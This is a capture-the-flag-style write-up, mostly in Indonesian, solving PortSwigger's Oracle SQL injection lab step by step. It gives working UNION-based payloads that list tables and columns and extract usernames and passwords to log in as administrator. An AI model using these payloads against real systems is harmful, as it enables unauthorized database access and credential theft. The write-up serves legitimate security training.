







# Challenge:

Lab: SQL injection attack, listing the database contents on Oracle
PRACTITIONER

## Challenge Description

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Resource

[Port Swigger - SQL Injection (listing database contents oracle)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

## Step-by-Step Solution

1. **Akses Lab**
   Buka lab SQL injection untuk listing database contents pada Oracle
   

2. **Enumerasi Tabel Database**
   Masukkan payload SQL injection untuk menampilkan semua tabel dalam database:

   ```
   /filter?category=%27+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```

   **Penjelasan Payload:**

   - `%27` - URL encoded single quote (')
   - `UNION SELECT` - Menambahkan query untuk mengekstrak data
   - `table_name` - Kolom yang berisi nama tabel
   - `NULL` - Placeholder untuk kolom kedua
   - `FROM all_tables` - View Oracle yang berisi semua tabel
   - `--` - Comment untuk mengabaikan sisa query

   

3. **Identifikasi Tabel Users**
   Cari tabel yang kemungkinan berisi username dan password
   

   **Hasil:** Ditemukan tabel `USERS_VQONUU` yang berisi kredensial user

4. **Enumerasi Kolom Tabel**
   Masukkan payload untuk menampilkan kolom-kolom dalam tabel users:

   ```
   /filter?category=%27+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name=%27USERS_VQONUU%27--
   ```

   **Penjelasan Payload:**

   - `column_name` - Kolom yang berisi nama kolom
   - `FROM all_tab_columns` - View Oracle yang berisi semua kolom
   - `WHERE table_name='USERS_VQONUU'` - Filter untuk tabel users

   

5. **Ekstraksi Kredensial**
   Masukkan payload untuk mengekstrak username dan password:

   ```
   /filter?category=%27+UNION+SELECT+USERNAME_ZCOMKW,+PASSWORD_LCHTXY+FROM+USERS_VQONUU--
   ```

   **Penjelasan Payload:**

   - `USERNAME_ZCOMKW` - Kolom username
   - `PASSWORD_LCHTXY` - Kolom password
   - `FROM USERS_VQONUU` - Tabel yang berisi kredensial

   

6. **Login sebagai Administrator**
   Gunakan kredensial administrator yang berhasil diekstrak untuk login
   

7. **Verifikasi Login**
   Konfirmasi bahwa login berhasil sebagai administrator
   

## Reflection

- **Status:** ✅ Berhasil
- **Root Cause:** Parameter category filter tidak memiliki validasi input yang proper untuk UNION-based SQL injection
- **Attack Vector:** UNION-based SQL injection melalui parameter category untuk enumerasi database contents
- **Key Insight:**
  - Berhasil menggunakan UNION SELECT untuk mengekstrak informasi struktur database Oracle
  - Payload `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` berhasil menampilkan semua tabel dalam database
  - Menggunakan view `all_tables` dan `all_tab_columns` yang spesifik untuk Oracle database
  - Berhasil mengidentifikasi tabel `USERS_VQONUU` yang berisi kredensial user
  - Mengekstrak username dan password administrator untuk privilege escalation
  - Demonstrasi bagaimana SQL injection bisa digunakan untuk complete database enumeration
  - URL encoding `+` untuk spasi memungkinkan bypass input validation
  - Teknik ini memungkinkan attacker untuk mendapatkan akses administrator melalui database enumeration
